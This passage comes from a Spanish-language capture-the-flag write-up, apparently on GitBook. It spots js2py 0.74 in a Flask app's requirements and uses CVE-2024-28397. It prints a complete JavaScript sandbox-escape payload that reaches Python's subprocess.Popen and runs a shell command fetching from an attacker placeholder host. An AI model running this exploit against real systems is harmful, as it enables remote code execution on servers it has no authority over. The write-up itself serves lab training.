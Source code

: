 ```python
        db.create_all()
    app.run(host='0.0.0.0', debug=True)
```

Vemos que hay una vulnerabilidad en la version de una libreria llamada `js2py` en el `requirements.txt`:

```
flask==3.0.3
flask-sqlalchemy==3.1.1
js2py==0.74
```

Si empezamos a buscar informacion de dicha vulnerabilidad, veremos el siguiente `CVE`:

URL = [js2py 0.74 CVE-2024-28397](https://github.com/Marven11/CVE-2024-28397-js2py-Sandbox-Escape)

Por lo que vemos se puede realizar un `RCE` mediante codigo de `JS`, por lo que vamos a registrarnos en la pagina ya que podemos, y despues una vez autenticados veremos lo siguiente:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-09-19 164832.png" alt=""><figcaption></figcaption></figure>

Vemos que podemos ejecutar codigo de `JS` y todo lo que ejecutemos se muestra en un `output` mas abajo, tambien podemos guardar el codigo, por lo que vamos aprovechar dicha vulnerabilidad para pegar el siguiente codigo:

```js
var cmd = "bash -c \"wget http://<IP>/\"";
var a = Object.getOwnPropertyNames({}).__class__.__base__.__getattribute__;
var obj = a(a(a, "__class__"), "__base__");

function findpopen(o) {
    for (var i in o.__subclasses__()) {
        var item = o.__subclasses__()[i];
        if (item.__module__ == "subprocess" && item.__name__ == "Popen") {
            return item;
        }
        if (item.__name__ != "type") {
            var result = findpopen(item);
            if (result) {
                return result;
            }
        }
    }
    return null;
}

var popen_class = findpopen(obj);
if (popen_class) {
    var result = popen_class(cmd, -1, null, -1, -1, -1, null, null, true).communicate();
    result;
} else {
    "No se encontró Popen";
}
```
